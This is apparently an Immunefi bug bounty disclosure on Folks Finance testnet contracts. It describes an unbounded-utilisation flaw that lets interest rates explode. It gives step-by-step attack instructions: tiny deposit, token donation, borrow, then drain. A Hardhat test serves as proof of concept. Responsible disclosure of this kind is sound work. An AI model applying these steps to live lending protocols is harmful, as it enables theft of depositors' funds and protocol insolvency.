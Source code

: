 # Boost \_ Folks Finance 33311 - \[Smart Contract - Critical] Infinite Interest rate bug

Submitted on Wed Jul 17 2024 12:14:00 GMT-0400 (Atlantic Standard Time) by @kankodu for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33311

Report type: Smart Contract

Report severity: Critical

Target: https://testnet.snowtrace.io/address/0x96e957bF63B5361C5A2F45C97C46B8090f2745C2

Impacts:

* Protocol insolvency
* Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description

## Brief/Intro

Here's the equation for utilisation that is being used currently `U=TotalVariableBorrowAmount+TotalStableBorrowAmountTotalDeposits/TotalDeposits`

When totalDeposits is lower than the totalBorrowed amount, the utilization can be much greater than 100%, which in turn makes borrowRates and depositRates very high.

## Vulnerability Details

* When a new token with CF > 0 is added, the attacker deposits 1e5 wei of its token, making TotalDeposits = 1e5.
* Let's say the decimals for this newly added token are 1e18. The attacker then donates 1e18 wei of tokens directly to the HubPool and borrows.
  * This is allowed as there is no check for it in the borrow method. It makes the totalBorrows = 1e18.
  * Utilization is 1e13 in this case, which makes the interest rate \~4e31. This translates to 4 trillion percent per second.
* After just a block, the attacker's original 1e5 deposits would have turned into a very large amount (in billions) due to the interest rate being an outrageous trillion percent per second.
* The attacker goes ahead and borrows all the tokens against this deposit as CF for this token is non-zero.

## Impact Details

* Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
* Protocol insolvency

## References

* https://medium.com/certora/silo-finance-post-mortem-3b690fffeb08

## Proof of concept

## Proof of Concept

Add below testcase in `test/hub/HubPool.test.ts` that shows the the interest rate is a very large amount when totalDeposits is way smaller than the totalBorrowedAmount

```
  it.only("infinite interest rate", async () => {
      const { loanManager, hubPool } = await loadFixture(deployHubPoolFixture);

      // set pool data with deposit total amount
      const depositTotalAmount = BigInt(1e5);
      const poolData = getInitialPoolData();
      poolData.depositData.totalAmount = depositTotalAmount;
      await hubPool.setPoolData(poolData);

      // update pool with borrow
      const amount = BigInt(1e18);
      const isStable = false;
      const updatePoolWithBorrow = await hubPool.connect(loanManager).updatePoolWithBorrow(amount, isStable);
      expect((await hubPool.getVariableBorrowData())[3]).to.equal(poolData.variableBorrowData.totalAmount + amount);
      await expect(updatePoolWithBorrow).to.emit(hubPool, "InterestRatesUpdated");

      expect((await hubPool.getVariableBorrowData())[4]).to.be.greaterThan(BigInt(1e31))
    });
```
